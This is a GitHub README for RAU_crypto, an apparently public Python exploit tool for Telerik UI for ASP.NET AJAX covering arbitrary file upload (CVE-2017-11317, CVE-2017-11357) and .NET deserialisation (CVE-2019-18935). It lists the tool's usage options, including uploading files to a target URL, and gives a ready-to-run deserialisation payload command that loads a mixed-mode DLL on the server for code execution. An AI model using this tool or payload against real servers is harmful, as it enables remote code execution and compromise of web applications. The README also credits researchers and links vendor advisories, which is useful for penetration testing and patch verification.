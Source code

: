 # RAU_crypto
[![Language](https://img.shields.io/badge/Lang-Python-blue.svg)](https://www.python.org)

Combined exploit for Telerik UI for ASP.NET AJAX.
- File upload for CVE-2017-11317 and CVE-2017-11357 - will automatically upload the file
- .NET deserialisation for CVE-2019-18935

For exploitation to work, you generally need a version with hard coded keys, or you need to know the key, for example if you can disclose the contents of web.config. The exploit also allows for straightforward decryption and encryption of the rauPostData used with Telerik.Web.UI.WebResource.axd?type=rau

## Requirements
- python >= 3.6 with pycryptodome (https://www.pycryptodome.org/en/latest/src/installation.html) - installed with `pip3 install pycryptodome` or `pip3 install pycryptodomex`

## Published on exploit-db (old version)
- https://www.exploit-db.com/exploits/43874/

## See also
My other Telerik UI exploit (for CVE-2017-9248) will probably also be of interest. It is available here:
- https://github.com/bao7uo/dp_crypto

## To do
- [x] Missing HMAC functionality for later versions.
- [x] Ability to specify custom key.
- [ ] Command line argument for execution of a mixed mode dll (in the meantime use the example .NET deserialisation payload provided below).
- [ ] Separate utility for testing mixed mode dll.
- [x] Provide source code/compilation instructions for mixed mode dll.
- [ ] Brute force versions.

Note - the last four items are complete but not released.

## Vulnerabilities
The file upload (CVE-2017-11317) vulnerability was discovered by others, I believe credits due to @straight_blast @pwntester @olekmirosh . Shortly after it was announced, I encountered the Telerik library during the course of my work, so I researched it and the vulnerability and wrote this exploit in July 2017. I also reported CVE-2017-11357 for the related insecure direct object reference.

https://www.telerik.com/support/kb/aspnet-ajax/upload-%28async%29/details/insecure-direct-object-reference

The .NET deserialisation (CVE-2019-18935) vulnerability was discovered by [@mwulftange]( https://github.com/mwulftange ).

https://www.telerik.com/support/kb/aspnet-ajax/details/allows-javascriptserializer-deserialization

## Usage
```
$ ./RAU_crypto.py 

RAU_crypto by Paul Taylor / @bao7uo 
CVE-2017-11317, CVE-2019-18935 - Telerik RadAsyncUpload hardcoded keys / arbitrary file upload / .NET deserialisation

Usage:

Decrypt a ciphertext:               -d ciphertext
Decrypt rauPostData:                -D rauPostData
Encrypt a plaintext:                -e plaintext

Generate file upload rauPostData:   -E c:\\destination\\folder Version
Generate all file upload POST data: -p c:\\destination\\folder Version ../local/filename
Upload file:                        -P c:\\destination\\folder Version c:\\local\\filename url [proxy]

Generate custom payload POST data : -c partA partB
Send custom payload:                -C partA partB url [proxy]

Example URL:               http://target/Telerik.Web.UI.WebResource.axd?type=rau
Example Version format:    2016.2.504
Example optional proxy:    127.0.0.1:8080

N.B. Advanced settings e.g. custom keys or PBKDB algorithm can be found by searching source code for: ADVANCED_SETTINGS
$
```
## Example - decryption
![Decrypt screenshot](images/decrypt_screenshot.png)

## Example - arbitrary file uplaod
![Upload screenshot](images/upload_screenshot.png)

## Custom payload (.NET deserialisation)

For details on custom payloads for .NET deserialisation, there is a great article by [@mwulftange]( https://github.com/mwulftange ) who discovered this vulnerability on the Code White blog at the following link.

- https://codewhitesec.blogspot.com/2019/02/telerik-revisited.html

Other relevant links.

- https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf
- https://threatvector.cylance.com/en_us/home/implications-of-loading-net-assemblies.html
- https://thewover.github.io/Mixed-Assemblies/

Example .NET deserialisation payload:

```
$ ./RAU_crypto.py -C '{"Path":"file:///c:/users/public/documents/mixedmode64.dll"}' 'System.Configuration.Install.AssemblyInstaller, System.Configuration.Install, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a' http://target/Telerik.Web.UI.WebResource.axd?type=rau
```

For mixed Mode DLL, see my other github repo:
- https://github.com/bao7uo/MixedUp

Special thanks to [@irsdl]( https://github.com/irsdl ) who inspired the custom payload feature.
